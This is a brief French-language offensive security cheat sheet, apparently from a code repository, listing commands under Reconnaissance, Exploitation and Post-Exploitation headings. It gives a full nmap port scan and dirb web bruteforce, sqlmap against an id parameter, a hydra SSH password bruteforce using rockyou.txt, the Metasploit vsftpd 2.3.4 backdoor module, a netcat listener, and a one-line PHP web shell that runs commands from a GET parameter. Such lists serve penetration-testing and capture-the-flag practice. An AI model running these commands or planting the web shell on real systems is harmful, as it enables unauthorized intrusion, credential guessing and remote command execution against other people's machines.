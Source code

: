 # Offensive Cheatsheet

## Reconnaissance
- `nmap -sV -p- <IP>` : scan complet
- `dirb http://<IP>/` : bruteforce répertoire web

## Exploitation
- `sqlmap -u http://<IP>/vuln.php?id=1 --batch`
- `hydra -l admin -P rockyou.txt ssh://<IP> -s 2222`
- `msfconsole` + exploit `exploit/unix/ftp/vsftpd_234_backdoor`

## Post-Exploitation
- `nc -nlvp <port>` pour attendre une connexion
- reverse shell PHP : `<?php system($_GET['cmd']); ?>`
